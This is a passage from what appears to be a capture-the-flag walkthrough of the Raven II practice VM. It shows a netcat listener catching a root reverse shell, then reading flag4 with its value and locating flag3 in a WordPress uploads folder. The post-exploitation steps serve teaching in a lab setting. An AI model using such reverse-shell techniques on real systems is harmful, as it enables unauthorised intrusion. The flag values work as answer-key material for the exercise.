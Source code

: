 <p>Back on our listener:</p>
```
root@kali:~# nc -lvp 4444
listening on [any] 4444 ...
192.168.1.13: inverse host lookup failed: Unknown host
connect to [192.168.1.16] from (UNKNOWN) [192.168.1.13] 53117
whoami
root
```
<p>
We've got our root shell. Navigate to the root directory and grab flag 4.
</p>

```
# cat flag4.txt
cat flag4.txt
  ___                   ___ ___ 
 | _ \__ ___ _____ _ _ |_ _|_ _|
 |   / _` \ V / -_) ' \ | | | | 
 |_|_\__,_|\_/\___|_||_|___|___|
                           
flag4{df2bc5e951d91581467bb9a2a8ff4425}

CONGRATULATIONS on successfully rooting RavenII

I hope you enjoyed this second interation of the Raven VM

Hit me up on Twitter and let me know what you thought: 

@mccannwj / wjmccann.github.io
```

<p>
We missed flag 3 during all this, so I looked for it in the Wordpress directory.
</p>

```
www-data@Raven:/var$ find / -type f -name flag* 2>/dev/null
find / -type f -name flag* 2>/dev/null
/var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png
/var/www/flag2.txt
/usr/share/doc/apache2-doc/manual/fr/rewrite/flags.html
/usr/share/doc/apache2-doc/manual/en/rewrite/flags.html
/sys/devices/pci0000:00/0000:00:11.0/0000:02:01.0/net/eth0/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/platform/serial8250/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
```

<p>
It's a .png that was hidden in one of the wordpress uploads. We can't <code>cat</code> it, so you can just move it to /var/www/html/ so it's viewable in a web browser: <code>cp /var/www/html/wordpress/wp-content/uploads/2018/11/flag3.png /var/www/html/</code>. Then navigate to http://YOUR-RAVEN-IP/flag3.png to grab it. You could also just transfer it to your own machine and read it there.
</p>
